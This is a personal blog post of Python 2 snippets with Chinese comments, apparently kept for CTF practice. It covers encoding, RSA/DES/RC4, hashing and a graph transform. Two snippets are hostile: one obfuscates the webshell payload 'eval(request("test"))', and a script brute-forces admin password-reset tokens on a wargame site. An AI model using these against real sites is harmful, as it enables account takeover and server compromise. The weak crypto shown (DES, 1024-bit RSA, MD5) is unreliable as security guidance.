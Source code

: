 ```yaml
---
title: Some python codes
author: tank96a
layout: post
categories:
  - article
tags:
  - python
---
```


一些有用的python代码片段

{% highlight python %}
from base64 import b64decode,b32decode
s='R1FZVElNWlZHUTJETU4yQ0dVM1RNTkpXSU0zREdOU0dHWkNETU5KVklZM1RJTlNHR1ZERElNSlVHTTJUSU5CV0dNWkRHTUJUR0VaVEtOS0dHUVlUSVFSVUdFMlVNTkNFR1E0VEtNWlVHTTJER05KVUdRM0RLUlJVSU0yRU1OQ0RHNUNBPT09PQ=='
s1= b64decode(s)
print b32decode(s1).decode('hex')

#获取代码运行时间
from  timeit import Timer 
def test1():
    l = [i for i in range(1000)]
def test2():
    l = list(range(1000))
    
t1 = Timer("test1()", "from __main__ import test1")
print("comprehension ",t1.timeit(number=1000), "milliseconds")
t2 = Timer("test2()", "from __main__ import test2")
print("list range ",t2.timeit(number=1000), "milliseconds")
{% endhighlight %}

[Python and cryptography with pycrypto](http://blog.csdn.net/lxgwm2008/article/details/9287481)
{% raw %}
<pre>
RSA 运算
root@kali:~/Desktop# openssl --help
root@kali:~/Desktop# openssl genrsa --help
root@kali:~/Desktop# openssl genrsa -out mykey.pem
Generating RSA private key, 1024 bit long modulus
e is 65537 (0x10001)
root@kali:~/Desktop# openssl rsa -help
root@kali:~/Desktop# openssl rsa -in mykey.pem -pubout > mykey.pub

from Crypto.PublicKey import RSA
text = "My test!"
pub_key = RSA.importKey(open('mykey.pub'))
# the second parameter for compatibility only,'' will be ok. Return a tuple with two items.
#The first item is the ciphertext,The second item is always None.
x = pub_key.encrypt(text, '')  
pri_key = RSA.importKey(open('mykey.pem'))
decrypted_text = pri_key.decrypt(x[0])
print decrypted_text
--------------------------------------------------
from Crypto.PublicKey import RSA
from Crypto import Random
random_generator = Random.new().read
key = RSA.generate(1024, random_generator)
c=key.publickey().encrypt('Hello world!','')[0]
print key.decrypt(c)
pub_key =  key.publickey().exportKey()
pri_key = key.exportKey()
print pub_key+'\n\n'+pri_key
</pre>
{% endraw %}

{% highlight python %}
#DES运算
from Crypto.Cipher import DES
from Crypto import Random
text="My test!"
key='12345678' #It must be 8 byte long.
iv = Random.get_random_bytes(8)
des = DES.new(key,DES.MODE_CBC,iv)
reminder = len(text)%8
text+=chr(8-reminder)* (8-reminder)
c=des.encrypt(text)
des1 = DES.new(key,DES.MODE_CBC,iv)
p=des1.decrypt(c)
padNum = ord(p[-1])
print p[:-padNum]

#rc4运算
from Crypto.Cipher import ARC4
obj1 = ARC4.new('0CTF2015')
c= obj1.encrypt('0CTF{Backdoor&Obfuscation_In_Execution_Environment}')
print c.encode('hex') 
obj2 = ARC4.new('0CTF2015')
print obj2.decrypt(c)
{% endhighlight %}

{% highlight python %}
import uuid
import hashlib
deskey = hashlib.md5(uuid.uuid1().hex).hexdigest()[:8]

from Crypto.Hash import MD5
print MD5.new('admin888').hexdigest()
---------------------------------------------------
import base64
print base64.b64decode(base64.b64encode('123'))

import hashlib
s='test'.encode('rot13').encode('base64')
print s.decode('base64').decode('rot13')
----------------------------------------------------


{% endhighlight %}


{% highlight python %}
class Graph(object):
    def __init__(self, vertexNum=0, edges=0):
        self.EdgeNo = edges  # Edge counter.
        self.vertList =[[] for i in range(vertexNum)]  # Adjacency lists for each vertex.

    # Adds an edge between vertex number x and y
    def addEdge(self, x, y):  
        assert x != y
        self.vertList[x].append((y, self.EdgeNo))
        self.vertList[y].append((x, self.EdgeNo))
        self.EdgeNo += 1

    def printme(self):
        print len(self.vertList), self.EdgeNo
        for i in range(len(self.vertList)):
            for ref, cc in reversed(self.vertList[i]):
                if ref > i:
                    print i + 1, ref + 1

def toLineGraph(gra):  # Performs the line graph transform
    newGra = Graph(vertexNum=gra.EdgeNo)
    for vertex in gra.vertList:# for each vertex
        for i in range(len(vertex)):
            for e in range(i + 1, len(vertex)):
                # for each pair of its edges, make an edge between them
                newGra.addEdge(vertex[-i - 1][1], vertex[-e - 1][1])
    return newGra

def buildGraph(s):
    gra = Graph(len(s) + 2 + sum(ord(c) - ord('0') for c in s))
    for i in range(len(s) + 1):
        gra.addEdge(i, i + 1)
    lenxx = len(s) + 2
    for i in range(len(s)):
        for _ in range(ord(s[i]) - ord('0')):
            gra.addEdge(i + 1, lenxx)
            lenxx += 1
    return gra
    
toLineGraph(toLineGraph(buildGraph('123'))).printme()
{% endhighlight %}

{% highlight python %}
import string
def dec(s,key):
    ss=''
    for i in range(0,len(s),2):
        if s[i] in string.digits:
            j = (i/2 +1)%len(key)
            ss += chr(string.atoi(s[i:i+2],16)-string.atoi(key[j]))
    return ss
def enc(s,key):
    ss=''
    for i in range(len(s)):
        j = (i+1)%len(key)
        ss+=hex(ord(s[i]) + string.atoi(key[j]))[2:4]    
    return ss
print dec("6b7d69712e796d767b6c7b792e297c6a797b2a2e2f","5678")
print enc('eval(request("test"))','5678')
{% endhighlight %}

{% highlight python %}
#requests模块的使用
方法1：
import requests
import hashlib
s = requests.Session()
header = {'Cookie': 'saeut=125.122.24.125.1416063016314663; PHPSESSID=45204efb16a5fba91c9159e1fe65b0e5'}
for x in xrange(615, 1000):
    pwd = hashlib.new('md5', '1417336' + str(x)).hexdigest()
    url = 'http://1.hacklist.sinaapp.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=' + pwd + '&username=admin'
    r = s.get(url, headers=header)
    if r.content != '':
        print r.content
        break
    else:
        print '正在破解中……', pwd
方法2：
import requests
import hashlib
import time
s = requests.Session()
header = {'Cookie': 'saeut=125.122.24.125.1416063016314663; PHPSESSID=45204efb16a5fba91c9159e1fe65b0e5'}
while True:
    pwd = hashlib.new('md5', str(int(time.time()))).hexdigest()
    url = 'http://1.hacklist.sinaapp.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=' + pwd + '&username=admin'
    r = s.get(url, headers=header)
    time.sleep(0.8)
    if r.content != '':
       同上省略.....
{% endhighlight %}

{% highlight python %}
{% endhighlight %}

{% highlight python %}
{% endhighlight %}
